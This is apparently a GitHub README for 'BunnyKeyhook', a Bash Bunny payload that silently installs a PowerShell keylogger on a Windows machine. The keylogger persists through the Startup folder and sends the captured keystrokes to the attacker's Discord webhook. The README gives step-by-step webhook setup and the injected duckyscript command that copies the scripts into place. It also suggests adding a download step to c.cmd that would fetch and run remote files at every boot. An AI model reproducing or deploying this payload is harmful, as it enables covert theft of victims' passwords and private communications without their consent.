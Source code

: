 # BunnyKeyhook
> Chris Taylor [Blue Cosmo]
---

```
      :::::::::  :::    ::: ::::    ::: ::::    ::: :::   ::: :::    ::: :::::::::: :::   ::: :::    :::  ::::::::   ::::::::  :::    ::: 
     :+:    :+: :+:    :+: :+:+:   :+: :+:+:   :+: :+:   :+: :+:   :+:  :+:        :+:   :+: :+:    :+: :+:    :+: :+:    :+: :+:   :+:   
    +:+    +:+ +:+    +:+ :+:+:+  +:+ :+:+:+  +:+  +:+ +:+  +:+  +:+   +:+         +:+ +:+  +:+    +:+ +:+    +:+ +:+    +:+ +:+  +:+     
   +#++:++#+  +#+    +:+ +#+ +:+ +#+ +#+ +:+ +#+   +#++:   +#++:++    +#++:++#     +#++:   +#++:++#++ +#+    +:+ +#+    +:+ +#++:++       
  +#+    +#+ +#+    +#+ +#+  +#+#+# +#+  +#+#+#    +#+    +#+  +#+   +#+           +#+    +#+    +#+ +#+    +#+ +#+    +#+ +#+  +#+       
 #+#    #+# #+#    #+# #+#   #+#+# #+#   #+#+#    #+#    #+#   #+#  #+#           #+#    #+#    #+# #+#    #+# #+#    #+# #+#   #+#       
#########   ########  ###    #### ###    ####    ###    ###    ### ##########    ###    ###    ###  ########   ########  ###    ###       
```

## Overview:
BunnyKeyhook is a BashBunny payload that uses PowerShell to log keystrokes. It will send the logs to you via discord. The keylogger almost gives you a "live feed" of their keystrokes through discord. However, you can tweak the timing to get the logs sent to you quick
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will execute *p.ps1* every minue
    - this can be changed to a preferred delay

## Resources:
- [YouTube Video](https://youtu.be/U74QqEa4GRc)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Windows Target

## Instructions:
**Create Discord Webhook**
1. create a discord server by clicking the plus button in the bottom left

![Create Server](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/create-server.png)

2. go into the `integrations` section in the server's settings
3. click `Webhooks`
![Integrations](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/integrations.png)

4. create a new webhook by clicking `New Webhook`
5. click `Copy Webhook URL` to copy the webhook URL
![Webhook](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/webhook.png)

**Set-Up/Installation**
1. in line 5 of *p.ps1*, replace `DISCORDWEBHOOK` with the webhook URL 
```powershell
$webhook = "DISCORDWEBHOOK"
```
2. in line 17 of *duckyscript.txt*, change `'BashBunny'` to the name of your Bash Bunny
3. in line 17 *duckyscript.txt*, change `switch1` to switch position that stores the paylaod
    - make sure to replace *all* appearances of `switch1` if you decide to change 
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name;cp .\payloads\switch1\p.ps1 $env:temp;cp .\payloads\switch1\l.ps1 $env:temp;cp .\payloads\switch1\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```

## Log Sending Delay
Changing the delay between log sends
1. in line 12 of *l.ps1*, change `60` to your preferred number of seconds
```powershell
Start-Sleep 60
```

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
